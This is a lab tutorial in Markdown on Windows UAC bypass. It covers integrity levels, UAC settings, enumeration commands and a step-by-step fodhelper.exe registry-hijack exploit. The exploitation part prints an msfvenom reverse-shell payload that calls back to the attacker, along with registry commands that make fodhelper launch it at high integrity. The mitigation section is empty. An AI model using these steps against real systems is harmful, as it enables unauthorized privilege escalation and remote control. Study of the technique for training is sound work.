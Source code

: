 # UAC Bypass

## Table of Contents

- [UAC Bypass](#uac-bypass)
  - [Table of Contents](#table-of-contents)
  - [Description](#description)
  - [Lab Setup](#lab-setup)
    - [Manual Lab Setup](#manual-lab-setup)
    - [PowerShell Script Lab Setup](#powershell-script-lab-setup) 
  - [Enumeration](#enumeration)
    - [Manual Enumeration](#manual-enumeration)
    - [Tool Enumeration](#tool-enumeration)
  - [Exploitation](#exploitation)
  - [Mitigation](#mitigation)
  - [References](#references)

## Description

UAC, or User Account Control, is a security feature implemented in Microsoft Windows operating systems, starting with Windows Vista. Its primary purpose is to enhance the security of the operating system by prompting users for permission or confirmation before allowing certain actions that may require administrative privileges.

When an application or a user attempts to perform tasks that require elevated permissions, such as installing software, making system changes, or modifying certain system settings, UAC prompts the user with a dialog box asking for confirmation or prompting the entry of administrator credentials. 

All protected objects in Windows are labeled with an integrity level. The default integrity level is medium, which is assigned to most users, system files, and registry keys on a system.

The following table illustrates the different levels of integrity:

| Integrity Name | Details |
|:-----------:|:-----------:|
| **Untrusted** | Processes logged in anonymously are automatically categorized as Untrusted. For instance, consider Google Chrome. |
| **Low** | The Low integrity level is the level used by default for interaction with the Internet. It's important to note that a process with a lower integrity level is restricted from writing to an object with a higher integrity level.|
| **Medium** | Processes initiated by standard users typically carry a medium integrity label, including those started by users within the administrators group. |
| **High** | Administrators are granted the High integrity level. Moreover, the root directory is safeguarded with a high-integrity label. |
| **System** | Most services are designated with System integrity. |
| **Installer** | The Installer integrity level is a unique case and represents the highest of all integrity levels. |

The default configuration for UAC is **Prompt for consent for non-Windows binaries**, but can also have different configuration settings.

The following table illustrates various configuration settings of UAC in a system:

| Prompt Name | Details |
|:-----------:|:-----------:|
| **Prompt for consent for non-Windows binaries** | This is the default. When an operation for a non-Microsoft application requires elevation of privilege, the user is prompted on the secure desktop to choose between **Permit** or **Deny**. If the user selects **Permit**, the operation continues with the user's highest available privilege. |
| **Prompt for credentials:** | An operation that requires elevation of privilege prompts the administrator to enter the user name and password. If the administrator enters valid credentials, the operation proceeds with the appropriate privilege. |
| **Prompt for consent:** | An operation that requires elevation of privilege prompts the administrator to select **Permit** or **Deny**. If the administrator selects **Permit**, the operation continues with the administrator's highest available privilege. |
| **Elevate without prompting** | Assumes that the administrator will permit an operation that requires elevation, and additional consent or credentials are not required. |

A UAC bypass refers a technique that allows a medium integrity process to elevate itself or spawn a new process in high integrity, without prompting the user for consent. 

:information_source: In this section, I will present only one example of a UAC bypass, as there are numerous different UAC bypass techniques. 

## Lab Setup

### Manual Lab Setup

Open a cmd with local Administrator privileges and use the following command:

```
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System" /v EnableLUA /t REG_DWORD /d 0x1 /f
```

Outcome:

![Enable-UAC](/Pictures/Enable-UAC.png)

### PowerShell Script Lab Setup

To set up the lab with the 'UAC' feature is by using the custom PowerShell script named [EnableUAC.ps1](/Lab-Setup-Scripts/EnableUAC.ps1).

Open a PowerShelll with local Administrator privileges and run the script:

```
.\EnableUAC.ps1
```

Outcome:

![UAC-Enable-Script](/Pictures/UAC-Enable-Script.png)

## Enumeration

### Manual Enumeration

To perform manual enumeration and identify whether a Windows workstation has enabled UAC, you can use the following command from a command prompt:

```
reg query HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA
```

Outcome:

![UAC-Manual-Enumeration](/Pictures/UAC-Manual-Enumeration.png)

### Tool Enumeration

To run the SharpUp tool and perform an enumeration if the `UAC` feature is enabled, you can execute the following command with appropriate argument:

```
SharpUp.exe audit
```

Outcome:

![UAC-Tool-Enumeration](/Pictures/UAC-Tool-Enumeration.png)

## Exploitation

:information_source: This case study leverages a UAC384 bypass that abuses the `Fodhelper.exe` application.

To abuse this scenario you should follow these steps:

1)  Use msfvenom to generate a malicious executable (exe) file:

```
msfvenom -p windows/x64/shell_reverse_tcp lhost=eth0 lport=1234 -f exe > nikos.exe
```

2) Transfer the malicious executable file to victim's machine.

3) Open a listener on your Kali machine.

4) Create with the following PowerShell command a new registry key:

```
New-Item -Path "HKCU:\Software\Classes\ms-settings\shell\open\command" -Force
```

5) Create a new registry entry named "DelegateExecute" under the specified registry path with an empty string as the value:

```
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\shell\open\command" -Name "DelegateExecute" -Value "" -Force
```

6) Modify the default command which executed when the specified registry key is triggered:

```
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\shell\open\command" -Name "(default)" -Value "powershell -exec bypass -c C:\<full_path>\<binary.exe>" -Force
```

Outcome:

![UAC-Exploitation-1](/Pictures/UAC-Exploitation-1.png)

7) Execute the `fodhelper.exe`:

```
C:\Windows\System32\fodhelper.exe
```

8) Verify the new reverse shell from your attacking machine with High Integrity:

![UAC-Exploitation-2](/Pictures/UAC-Exploitation-2.png)

## Mitigation

## References

- [Integrity Levels by HackTricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/integrity-levels)
- [UAC by HackTricks](https://book.hacktricks.xyz/windows-hardening/authentication-credentials-uac-and-efs/uac-user-account-control)
- [User Account Control settings and configuration Microsoft](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/user-account-control/settings-and-configuration?tabs=intune)